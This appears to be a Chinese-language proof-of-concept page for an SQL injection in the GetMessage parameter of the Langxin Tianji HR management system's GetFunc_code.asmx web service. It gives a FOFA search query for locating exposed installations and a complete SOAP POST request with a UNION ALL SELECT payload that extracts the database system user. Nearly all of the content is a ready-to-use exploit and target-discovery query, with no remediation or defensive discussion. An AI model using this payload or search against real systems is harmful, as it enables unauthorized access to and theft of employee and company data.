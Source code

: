 ## 朗新天霁人力资源管理系统GetMessage存在sql注入漏洞

朗新天霁人力资源管理系统GetFunc_code.asmx接口参数 GetMessage 存在SQL注入漏洞，导致数据泄露。

## fofa

```
body="人力资源管理系统" && body="Silverlight"
```

## poc

```
POST /ws/GetFunc_code.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetMessage"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetMessage xmlns="http://tempuri.org/">
      <loginName>1' UNION ALL SELECT ISNULL(CAST(SYSTEM_USER AS NVARCHAR(4000)),CHAR(32))-- Bthm</loginName>
    </GetMessage>
  </soap:Body>
</soap:Envelope>
```

![image-20240702222843669](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407022228746.png)
